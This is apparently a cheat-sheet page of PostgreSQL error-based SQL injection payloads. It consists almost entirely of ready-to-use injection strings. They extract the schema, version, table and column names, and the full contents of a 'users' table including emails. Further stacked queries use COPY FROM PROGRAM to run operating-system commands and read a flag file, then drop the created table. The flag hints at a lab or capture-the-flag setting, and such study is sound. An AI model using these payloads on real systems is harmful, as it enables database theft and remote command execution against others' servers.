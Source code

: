 # PostgreSQL

### _<mark style="background-color:purple;">Error-Based SQLi</mark>_

```sql
' AND 1=CAST(CURRENT_SCHEMA() AS TEXT)--
#get current search path schema
```

{% code overflow="wrap" %}
```sql
' AND 1=CAST((SELECT concat('DATABASE: ',current_database())) as int)--

```
{% endcode %}

```sql
' AND CAST((SELECT version()) AS INT)=1337 --
#get current version
```

```sql
' and ''=''||box(user)--
#get SQL server name
```

{% code overflow="wrap" %}
```sql
' AND 1=CAST((SELECT concat('SCHEMA: ', current_schema())) AS int)-- 
#get schema name
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' AND 1=CAST((SELECT concat('TABLE: ', (SELECT tablename FROM pg_catalog.pg_tables WHERE schemaname='public' LIMIT 1))) AS int)--
#get table name
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' and ''=''||box((select string_agg(column_name, ',') from information_schema.columns where table_catalog=current_database() and table_name='users'))--
#get column names for the table users
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' and ''=''||box((select array_to_string(array_agg(weight || ',' || height || ',' || created_at || ',' || active || ',' || gender || ',' || email), '|| ') from users))--
#retrieve all info stored in users
```
{% endcode %}

#### Command injection:

<pre class="language-plsql" data-overflow="wrap"><code class="lang-plsql">-- create table and send command
'; CREATE TABLE commands(data text);COPY commands FROM PROGRAM 'cat /var/www/flag.txt';--
<strong>
</strong><strong>--  read output from command
</strong>' and ''=''||box((SELECT data FROM commands))--

-- delete table
';DROP TABLE commands--
</code></pre>
